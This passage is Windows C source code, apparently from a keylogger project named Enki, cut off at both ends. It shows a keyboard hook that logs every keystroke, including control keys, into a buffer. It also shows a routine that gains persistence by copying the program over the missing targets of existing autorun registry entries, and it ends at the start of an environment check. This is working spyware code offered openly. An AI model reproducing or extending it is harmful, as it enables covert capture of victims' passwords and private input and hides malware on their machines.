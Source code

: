 					break;
				case VK_CONTROL:
					strncat(lpLogBuf, "[CTRL]", 6);
					break;
				case VK_TAB:
					strncat(lpLogBuf, "[TAB]", 5);
					break;
				case VK_MENU:
					strncat(lpLogBuf, "[ALT]", 5);
					break;
				case VK_ESCAPE:
					strncat(lpLogBuf, "[ESC]", 5);
					break;
				default:
					strncat(lpLogBuf, szKey, 1);
					break;
			}
		}
	}

	return CallNextHookEx(0, nCode, wParam, lParam);
}

#ifdef STARTUP
BOOL FileExists(LPSTR File) {
	DWORD dwAttributes = GetFileAttributes(File);

	return dwAttributes != INVALID_FILE_ATTRIBUTES && !(dwAttributes & FILE_ATTRIBUTE_DIRECTORY);
}

VOID InstallStartup(LPCSTR Path) {
	HKEY hKey;

	RegOpenKeyEx(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_QUERY_VALUE, &hKey);
	if (hKey == NULL) {
		Fatal("Open registry key");
	}

	CHAR Value[MAX_VALUE_NAME];
	CHAR Data[MAX_VALUE_NAME];

	DWORD i, ret = ERROR_SUCCESS;
	for (i = 0; ret == ERROR_SUCCESS; i++) {
		DWORD dwValueSize = MAX_VALUE_NAME;
		DWORD dwDataSize = MAX_VALUE_NAME;

		ret = RegEnumValue(hKey, i, Value, &dwValueSize, NULL, NULL, Data, &dwDataSize);
		//MessageBox(NULL, Data, "Enki - STARTUPer", MB_OK);

		if (FileExists(Data) == FALSE) {
			if (CopyFile(Path, Data, FALSE) == TRUE) {
				//MessageBox(NULL, "File successfully copied.", "Enki - STARTUPer", MB_OK);
				break;
			} else {
				//MessageBox(NULL, "Failed to copy file.", "Enki - STARTUPer", MB_OK);
			}
		} else {
			break;
		}
	}

	RegCloseKey(hKey);
}
#endif

#ifdef CHECK_ENV
BOOL CheckEnvironment(VOID) {